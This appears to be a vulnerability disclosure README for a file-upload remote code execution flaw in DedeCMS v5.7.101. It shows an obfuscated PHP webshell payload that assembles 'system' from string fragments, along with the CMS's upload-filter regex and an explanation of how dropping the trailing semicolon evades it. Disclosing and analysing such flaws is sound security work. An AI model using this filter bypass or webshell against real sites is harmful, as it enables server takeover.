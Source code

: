 # Dedecms-v5.7.101-RCE
## Vulnerability Description
Since CVE-2022-40886 is not fully fixed, Dedecms still has a file upload vulnerability, leading to RCE.

## Vulnerability to reproduce

Log in to the backend of the website.

![RCE-1](Dedecms-v5.7.101-RCE-1.png)

Upload the file hhh.php, the content of the file is as follows:

```php
<?php $x='sys';$xx='tem';$xxx=$x.$xx;$y='di';$yy='r';$yyy=$y.$yy;$xxx($yyy) ?>
```
![RCE-2](Dedecms-v5.7.101-RCE-2.png)

Visit `hhh.php`：

![RCE-3](Dedecms-v5.7.101-RCE-3.png)

## Vulnerability Analysis

In `/dede/file_manage_control.php`, the content of the file we upload will first be checked by `uploadsafe.inc.php`.

In `CVE-2022-40886`, the POC uses `$_COOKIE` to bypass the `$cfg_disable_funs parameter` blacklist. It can be seen that in v5.7.101, `uploads/include/uploadsafe.inc.php` added the limit of `$_COOKIE`, and added some regular matching filtering.

![RCE-4](Dedecms-v5.7.101-RCE-4.png)

Focus on the regular matching expression added by `uploadsafe.inc.php`.

```php
if(preg_match("#<\?(php|=)#i", " {$content}") == TRUE) {
    if(preg_match("#[$][_0-9a-z]+[\s]*[(][\s\S]*[)][\s]*[;]#iU", " {$content}") == TRUE) {
        $content = dede_htmlspecialchars($content);
        die("DedeCMS提示：当前上传的文件中存在木马！<pre>{$content}</pre>");
    }
    if(preg_match("#[@][$][_0-9a-z]+[\s]*[(][\s\S]*[)]#iU", " {$content}") == TRUE) {
        $content = dede_htmlspecialchars($content);
        die("DedeCMS提示：当前上传的文件中存在木马！<pre>{$content}</pre>");
    }
    if(preg_match("#[`][\s\S]*[`]#i", " {$content}") == TRUE) {
        $content = dede_htmlspecialchars($content);
        die("DedeCMS提示：当前上传的文件中存在后门！<pre>{$content}</pre>");
    }
}
```

Among them, there is the following regular expression, if the match is successful, the process will be terminated and returned `DedeCMS提示：当前上传的文件中存在木马`。

```php
[$][_0-9a-z]+[\s]*[(][\s\S]*[)][\s]*[;]
```
This regular expression prevents a lot of malicious code, but it needs to meet the requirements ending with` ;`, and shell injection can still be performed through `<?php ?>`.
```php
<?php $x='sys';$xx='tem';$xxx=$x.$xx;$y='ca';$yy='lc';$yyy=$y.$yy;$xxx($yyy) ?>
```
